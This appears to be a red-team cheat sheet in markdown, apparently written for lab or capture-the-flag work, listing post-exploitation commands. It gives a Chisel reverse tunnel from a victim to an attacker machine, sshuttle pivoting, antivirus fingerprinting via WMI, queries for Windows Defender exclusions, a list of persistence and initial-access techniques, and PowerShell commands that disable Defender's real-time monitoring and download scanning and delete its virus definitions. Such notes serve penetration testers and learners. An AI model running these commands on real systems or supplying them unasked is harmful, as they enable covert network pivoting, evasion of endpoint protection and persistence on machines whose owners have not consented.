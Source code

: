 ## Pivoting
- Chisel
```bash
# On Kali
./chisel server -p 80 --reverse

# On Victim
./chisel client 10.10.14.2:80 R:socks
```

- SSHuttle
```bash
sshuttle -r riley@10.10.110.35 192.168.110.0/24 -x 10.10.110.35
```

## Fingerprinting Antivirus:
```bash
wmic.exe /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get *
```

## Windows Defender Exclusions:
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s
```

## Persistence Mechanisms:
- C2
- COM Persistence
- DLL Hijacked Persistence
- DLL Side Loading
- Task Scheduler
- Registry Keys
- Startup Folder
- `SharpPersist`
- `Fake-AMSI-Provider`

## Initial Access:
- VBA Stomping/Purging

## Constrained Language Mode
- We can see of the language mode is constrained using
```bash
$ExecutionContext.SessionState.LanguageMode
```

## Defender:
- We can make the download functionality defender less
```bash
Set-MpPreference -DisableIOAVProtection $true
```
- We can turn Real Time Protection off
```bash
Set-MpPreference -DisableRealTimeMonitoring $true
```
- We can also remove all virus definations and let it run
```bash
& 'C:\Program Files\Windows Defender\MpCmdRun.exe' -RemoveDefinitions -All
```
